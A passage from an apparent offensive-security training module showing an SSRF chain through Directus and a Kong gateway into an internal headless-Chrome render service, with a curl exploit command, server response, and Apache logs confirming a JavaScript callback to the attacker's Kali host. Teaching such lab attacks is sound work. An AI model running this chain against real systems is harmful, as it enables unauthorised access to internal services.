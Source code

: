 Since the application does not return the page loaded with the SSRF vulnerability, we need another way to determine if the browser executes JavaScript. Our JavaScript function uses fetch() to make a call back to our Kali host. The onload event in the body tag calls our function. After placing this file in our webroot, let's use the SSRF vulnerability to call the render service pointed at this file.

kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.118.3/hello.html"}' http://apigateway:8000/files/import
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 102
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"66-OPr7zxcJy7+HqVGdrFe1XpeEIao"
Date: Thu, 25 Feb 2021 18:14:42 GMT
X-Kong-Upstream-Latency: 1555
X-Kong-Proxy-Latency: 2
Via: kong/2.2.1

{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
Listing 44 - Calling render with our html file

Since we received a "forbidden" response, the browser should have loaded our HTML page. Let's check our Apache access log for the callback.

kali@kali:~/Documents/awae$ sudo tail /var/log/apache2/access.log
...
192.168.120.135 - - [25/Feb/2021:13:14:41 -0500] "GET /hello.html HTTP/1.1" 200 483 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.120.135 - - [25/Feb/2021:13:14:41 -0500] "GET /itworked HTTP/1.1" 404 491 "http://192.168.118.3/hello.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
Listing 45 - Checking Apache access.log

We have two new entries in access.log. The first lists the hello.html file that we used in the call to the Render API. The second entry is from the JavaScript function. We have verified we can execute JavaScript in the Headless Chrome browser.

Let's review the attack chain.

Figure 5: SSRF Attack Chain
Figure 5: SSRF Attack Chain
We started the attack by sending a request with curl. The Kong API Gateway proxies our request to the Files service endpoint on the Directus host. The Directus application takes the value of the url parameter and sends a GET request to that URL. We specified the Render service endpoint so the Directus application sends the GET request there. The Render service handles the GET request and reads the url parameter out of the URL and sends a GET request to that URL using Headless Chrome. The browser loads the HTML page from our Kali host and executes the JavaScript, which makes a second GET request to our Kali host.
